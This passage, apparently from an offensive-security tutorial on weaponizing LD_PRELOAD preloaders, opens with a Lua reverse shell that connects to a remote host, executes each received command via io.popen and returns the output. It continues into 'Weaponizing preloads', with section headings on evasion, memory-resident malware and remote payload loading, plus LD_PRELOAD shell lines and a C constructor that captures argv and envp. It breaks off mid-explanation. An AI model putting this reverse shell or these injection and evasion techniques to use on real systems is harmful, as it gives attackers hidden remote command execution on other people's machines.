 ```lua
-- via path
local rhost = "127.0.0.1"
local rport = "8080"
assert(tcp:connect(rhost,rport));
  while true do
    local r,x=tcp:receive()
    local fin=assert(io.popen(r,"r"))
    local data=assert(fin:read("*a"));
    tcp:send(data);
  end;
fin:close()
tcp:close()
```
As you can see we no longer need to load shared libraries, we can use code which is much easier to manage, stuff a string into memory, for example and invoke.

## Part 2: Weaponizing preloads

So now that we have some baseline built, and have ideas on how to expand our preloading cradles, let's see how these concepts can be weaponized in the wild. Let's also add a few more techniques to our evasion toolbox as we go along. 

Highlights:

- Inline Parameterized Command Evasion. Uber-preloaders.
- Memory-resident Malware Modules.
- Modular Malware Payload Warehouses: Remote module loads

### 0x0: Inline Parameterized Command Evasion. Uber-preloaders

The first impulse is to directly use `LD_PRELOAD` for a lot of things static, as we have seen before

```sh
$LD_PRELOAD=./lib/libctx.so.1 /bin/ls
```
As you can expect by now the shared library preloads the constructor, executes payload and lets the target be. 

What if we want more features and flexibility. We could do:
```sh
$LD_PRELOAD=./lib/libctx.so.1 /bin/ls <preloader_arguments>
```

No, this will not work, of course, as the arguments we wanted to end up being used by the preloader will actually be consumed by the target unless you do some specific processing with the parameters as you hook the main:

```c
__attribute__((constructor)) static void _mctor(int argc, char **argv, char** envp)
{

     // Save pointers to argv/argc/envp
     largv=argv;
     largc=argc;
     lenvp=envp;
     lenvp_start=envp;
```
Possibly but close coupled to specific context, and prone to errors. We could solve the issue by moving backwards in the command line and stuffing arguments into environment variables like so:
